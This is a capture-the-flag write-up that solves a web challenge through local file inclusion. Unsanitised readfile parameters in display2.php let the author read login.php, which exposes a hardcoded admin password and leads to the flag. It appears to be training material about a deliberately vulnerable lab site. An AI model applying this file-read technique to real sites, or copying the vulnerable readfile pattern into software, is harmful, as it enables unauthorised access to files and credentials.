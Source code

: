 # flagCTF – Exquisifax Admin Panel

* **Category:** Web Exploitation
* **Points:** 40

## Challenge

>Let's go back to the Exquisifax site: http://18.217.184.75:8002/. Find a way to log in to the site, and report the flag.
>
>Scope of attack: http://18.217.184.75:8002/*

## Solution

The login page doesn't appear to be vulnerable to any injections, and there's no information we can really glean from it.

We head back to the home page, and try putting in "color" for the color parameter, "number" for the number parameter, and "shape" for the shape parameter.

We get back the following error: 
```
Warning: readfile(color/shape/number): failed to open stream: No such file or directory in /var/www/html/display2.php on line 3
```

This means that display2.php utilizes the readfile function, which, if unsanitized, would let us perform LFI. It's important to note that the server retrieves images with a path in the order color, shape, number but the text boxes are in the order color, number, shape.

Let's try to grab the source for display2.php by setting color to ".", number to "display2.php", and shape to "."

As suspected, we get the source:

```
<?php
$filepath = str_replace("..","",$_GET['color']) . '/' . str_replace("..","",$_GET['shape']) . '/' . str_replace("..","",$_GET['number']) ;
readfile($filepath);
?>
```

There's not really any sanitization occurring, besides some to prevent a directory traversal attack. So, we can plug in the exact same arguments as before, and replace display2.php with login.php.

```

<?php
session_start();
$errorMsg = "";
$validUser = $_SESSION["login"] === true;
if(isset($_POST["sub"])) {
  $validUser = $_POST["username"] == "admin" && $_POST["password"] === "SecurelyAblazeStorableVacuum";
  if(!$validUser) $errorMsg = "Invalid username or password.";
  else $_SESSION["login"] = true;
  // echo($_SESSION["login"]);
}
if($validUser) {
   $_SESSION["login"] = true;
   header("Location: loggedin.php");  // die();
}
// https://stackoverflow.com/questions/19531044/creating-a-very-simple-1-username-password-login-in-php/19531260
?>
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="content-type" content="text/html;charset=utf-8" />
  <title>Login</title>
</head>
<body>
  <h2 style="color:blue">Log In to the protected site</h2>
    <div class="error"><?= $errorMsg ?></div>
  <form name="input" action="" method="post">
    <label for="username">Username:</label><input type="text" value="<?= $_POST["username"] ?>" id="username" name="username" />
    <br/>
    <label for="password">Password:</label><input type="password" value="" id="password" name="password" />
    <br/>
    <br/>
    <div class="error"><?= $errorMsg ?></div>
    <input type="submit" value="Login" name="sub" />
  </form>
</body>
</html>
```

The PHP code validates the user if their username is admin and their password is SecurelyAblazeStorableVacuum. We go back to the login page and plug these credentials in.

```
200aaa7c1acbd70d2b243bbdc761fc38
```
